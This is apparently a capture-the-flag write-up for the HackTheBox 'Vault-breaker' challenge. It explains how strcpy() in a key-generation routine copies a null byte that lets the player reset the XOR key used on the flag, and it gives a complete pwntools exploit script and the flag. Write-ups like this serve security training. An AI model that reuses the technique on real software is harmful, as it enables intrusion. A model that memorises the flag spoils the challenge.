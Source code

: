 # Vault-breaker
> Write-up author: jon-brandy
## DESCRIPTION:
Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. 
Something is hidden inside it, can you find out the way it works and bring it to Bonnie?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fee75c8f-8712-4253-86f6-e9d4223e992a)

> BINARY PROTECTIONS 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa77f0fa-38d7-4e28-a6db-91959cbb4fba)


2. After decompiled the binary and analyzed the `secure_password()` function which is the second menu option.
3. I found no vuln and it just perform safe XOR operation for the flag strings.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7d86234e-a150-4c78-9edc-335c90fea824)


4. But the bug is at the 1st menu option which is the `new_key_gen()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0e69019-3714-4578-ab4f-556a74383fd2)

5. It checks whether the user input has null byte, then it shall printed out the original char.
6. Well the vuln is at the strcpy(), if we're using strcpy() it does copy the nullbyte (at the end of the strings). For secure coding practice better using memcpy().
7. Anyway the exploit here, is we can leak the flag char one by one by set a position manually for the nullbyte.
8. As we know the program accepts 31 bytes and there's a memset which set 32 bytes of 0 at first.
9. So rather we leak it from the left, we can leak it more easily from the right using for loop.

> SCRIPT TEMP

```py
for i in range(0x1F, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))
```

10. After we leak all the character then we open the second menu to get the flag.

> FULL SCRIPT

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```

> TEST LOCALLY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4df902d1-7c75-4581-a0d1-14b5872ec7c6)


11. Great we got it locally, but notice we failed to leak the `}`. Kinda confused why because our local flag length is 24.
12. Anyway let's send it remotely.

> REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/76bf0af6-9662-4f2d-89b2-4103ac9e8251)


#### NOTES: 
```
The binary at the remote server is very unstable, took me a while to get the flag remotely,i keep terminate and spawn the host again and again.
Because if you tried to leak it manually without the script, you'll notice few char can't be leaked and when you restart the host, it can be leaked.
```

## FLAG
```
HTB{d4nz4_kudur0r0r0}
```


